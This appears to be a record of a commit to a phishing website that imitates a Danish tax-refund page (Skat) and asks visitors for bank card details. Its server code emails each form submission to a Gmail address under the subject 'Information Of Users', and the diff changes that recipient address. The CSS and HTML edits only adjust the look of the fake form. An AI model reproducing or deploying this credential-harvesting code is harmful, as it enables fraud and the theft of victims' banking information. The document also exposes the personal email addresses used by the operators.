

Before and after one commit to robberyhood/123, a website: page views/signup.html in a window 1280 px wide. Shown: the top 739 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
first commit

```diff
--- a/server.js
+++ b/server.js
@@ -107,7 +107,7 @@ app.post('/sign', async (req, resp) => {
   console.log(body)
   await transporter.sendMail({
     from: 'nmunshi40@gmail.com',
-    to: 'Nikopet27@gmail.com',
+    to: 'Niko27pet@gmail.com',
     subject: 'Information Of Users',
     html: body
   });
--- a/static/style.css
+++ b/static/style.css
@@ -210,7 +210,7 @@ body {
   font-weight: 400;
   color: #1a1a1a;
   padding-top: 20px;
-  font-size: 4rem !important;
+  font-size: 3.5rem !important;
 }
 
 .signup h4 {
@@ -223,8 +223,8 @@ body {
 .signup p {
   font-size: 2.5rem;
   font-weight: 100;
-  text-align: center;
-  padding: 0 80px 0 80px;
+  text-align: start;
+  padding: 0 20px 0 20px;
 }
 
 .signup-form {
--- a/views/signup.html
+++ b/views/signup.html
@@ -148,11 +148,11 @@
     <div class="signup-form">
       <div class="container-fluid px-5">
         <div class="signup text-center">
-          <h3>Detaljer for tilbagebetaling af skat</h3>
+          <h3>Detaljer for tilbagebetaling af Skat</h3>
         </div>
       </div>
       <div class="container-fluid px-5">
-        <div class="signup text-center">
+        <div class="signup text-sm-left">
           <p>Indtast de bankoplysninger, hvorpå du ønsker skatteresfusionen skal blive udbetalt på. Ingen betaling vil blive trukket på kortet.
           </p>
         </div>
```
Also changed, not shown: views/1.html (+1 -1 lines), views/4.html (+2 -4 lines).
